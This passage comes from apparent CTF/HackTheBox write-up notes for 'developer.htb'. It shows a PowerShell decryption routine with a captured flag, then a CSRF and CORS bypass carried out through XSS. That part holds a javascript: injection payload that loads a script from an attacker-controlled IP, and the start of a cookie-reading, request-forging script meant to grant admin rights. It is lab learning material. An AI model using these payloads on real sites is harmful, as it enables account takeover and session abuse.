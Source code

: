 ```powershell
	$ms.Close()
	# Clears the RijndaelManaged Cryptology IV and Key
	$rm.Clear()	
	return [Text.Encoding]::UTF8.GetString($cipherTextBytes, 0, $decryptedByteCount).TrimEnd([char]0x0000); 
}

$passph="AmazinglyStrongPassword"
$salt="CrazilySimpleSalt"
$init="StupidlyEasy_IV"
$p = Decrypt-String "X/o8VJQE1pyQhjmpcwk45+L069bivpF63PjZP4z7ahKaC+jv89NT6ze0T5id0lWC" $passph $salt $init
Write-Output $p
```

Flag: DHTB{P0w3rsh3lL_F0r3n51c_M4dn3s5}

Now we can submit a Walkthrough

![[docs/Pasted image 20211028111747.png]]

admin@developer.htb

# CSRF and CORS bypass via XSS (unintended way)

[[../../../OWASP and Web Attacks/CSRF]]

IDEA:

Send the admin to a site which sends a post request to set me as super user
As we dont know the user id we need first create a new user
so the steps are as followed:

1. get a csrf token via GET
2. create a user via POST
3. use the redirect URL to update the user with a second POST request
4. update the post request

This only works, if we found an XSS on the site, without, the CORS Policy would not allow a request from our web server

on the post walkthrough site we can submit an link with xss into it

[[../../../OWASP and Web Attacks/XSS]]

```html
javascript:(onclick=document.write('<script src=http://10.10.14.227/sec.js></script>'))
```

On our Server we start a python server and host the

sec.js
```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
  };

// Step1 get the cookie
var req = new XMLHttpRequest();
req.open('GET','http://developer.htb/admin', false);
req.send(null);
    
var csrf = getCookie("csrftoken");

// Step2 create the user
var xhr = new XMLHttpRequest();
```